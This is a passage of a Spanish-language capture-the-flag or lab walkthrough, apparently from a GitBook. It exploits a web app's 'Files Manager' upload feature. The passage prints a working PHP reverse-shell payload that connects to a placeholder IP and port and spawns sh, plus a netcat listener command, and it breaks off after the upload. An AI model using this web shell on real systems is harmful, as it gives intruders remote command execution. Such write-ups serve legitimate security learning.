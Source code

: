 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-12 093129.png" alt=""><figcaption></figcaption></figure>

Si le damos veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-12 093148.png" alt=""><figcaption></figcaption></figure>

Dentro del mismo y explorando un poco hay una seccion interesante llamada `Files Manager` si entramos dentro y le damos al boton llamado `Upload File` nos metera en una seccion en la que podremos subir un archivo, en este punto se nos ocurre subir un archivo `PHP` con una `reverse shell` de esta forma.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Teniendo el archivo creado, le daremos a `Browser...` en la seccion de `File` para subir el archivo, pondremos una configuracion basica sin importancia, una vez dandole al boton de `Ok - upload file` veremos que el archivo se nos subio correctamente, ahora nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Cuando subimos el archivo nos lleva a esta parte:

